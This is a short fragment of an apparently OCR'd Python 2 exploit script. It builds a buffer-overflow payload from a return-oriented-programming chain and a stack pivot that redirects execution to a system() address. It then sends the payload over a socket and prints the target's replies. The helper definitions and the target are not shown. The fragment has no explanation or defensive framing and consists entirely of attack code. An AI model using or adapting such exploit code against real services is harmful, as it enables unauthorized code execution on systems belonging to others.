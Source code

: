 ``` py
print "Rop payload : %s" % repr(rop_payload)
print "******************* ROP payload Generated ***********************"
con_esp = up(stack) + 4 + 8
payload = rop_payload+stack+p(con_esp)+p(system_func)+"\n"
print "Overflow payload : %s" % repr(payload)
print "******************* Payload for controling esp Generated ***********************"
 
s.send(payload)
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("5\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.close()
```

